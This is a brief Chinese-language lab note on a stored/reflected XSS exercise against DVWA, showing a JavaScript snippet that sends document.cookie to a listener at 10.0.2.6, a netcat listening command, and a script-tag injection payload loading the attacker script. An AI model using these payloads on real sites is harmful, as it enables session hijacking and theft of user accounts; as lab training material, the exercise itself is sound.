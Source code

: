 * 注：每次实验后都需重置数据库

#### 获取cookie实验

在本机/var/www/html中制作一个js脚本

```javascript
var img = new Image();
img.src = "http://10.0.2.6:88/cookies.php?cookie="+document.cookie;
```

<img src="image/6.png" />

在kali中使用`nc -vnlp 88`进行监听，在DVWA平台进行测试此行代码，可获取到用户cookie

```js
<script src='http://10.0.2.6/xxsec.js'></script>
```
